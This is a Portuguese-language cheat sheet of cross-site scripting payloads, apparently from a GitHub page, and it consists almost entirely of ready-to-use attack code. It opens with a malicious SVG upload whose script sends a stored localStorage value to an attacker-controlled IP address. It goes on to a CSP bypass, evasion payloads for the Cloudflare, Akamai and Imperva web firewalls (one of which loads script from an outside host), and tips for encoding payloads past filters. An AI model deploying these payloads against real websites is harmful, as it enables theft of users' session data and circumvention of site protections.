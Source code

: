 ## Captura de Cookies
### SVG Upload File
Upload do arquivo .svg com o código para captura dos valores em um parâmetro armazenado no Local Storage
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      document.location='http://[IP]:1234/'+localStorage.getItem('[PARAMETRO]');
   </script>
</svg>
```
Bypass CSP - Content Security Policy Usa foreignObject
```
<svg width="600" height="400" xmlns="http://w3.org/2000/svg" xmlns:xhtml="http://w3.org/1999/xhtml">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://w3.org/1999/xhtml">
<iframe src='javascript:confirm(10)'></iframe>
    </body>
  </foreignObject>
</svg>
```
Bypass Geral
```
<Img+Src=javascript:alert(1)+OnError=location=src>

XSS Found in "/lib/css/animated.min'"/>
<script%20>alert(document.domain)<%2fscript>.css"
```
## Bypass Cloudflare WAF
```
%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E

&#34;&gt;&lt;track/onerror=&#x27;confirm\%601\%60&#x27;&gt;
Clean Payload "><track/onerror='confirm`1`'>

HTML entity & URL encoding:
" --> &#34; 
> --> &gt; 
< --> &lt;
' --> &#x27;
` --> \%60

## HTMLi
<Img Src=OnXSS OnError=alert(1)>

"><img src=x onerrora=confirm() onerror=confirm(1)>
```
## Bypass Akamai JSi
```
';k='e'%0Atop['al'+k+'rt'](1)//
```
## Bypass Imperva HTMLi
```
<Img Src=//X55.is OnLoad%0C=import(Src)>
```
## Basic XSS Encoding Tips
```
1) alert = window["al"+"ert"] 
2) bypass () with `` 
3) replace space with / 
4) encode symbols:

< = %3c
> = %3e
" = %22
[ = %5b
] = %5d
` = %60

Example Payload:
%3csvg/onload=window%5b"al"+"ert"%5d`1337`%3e
```

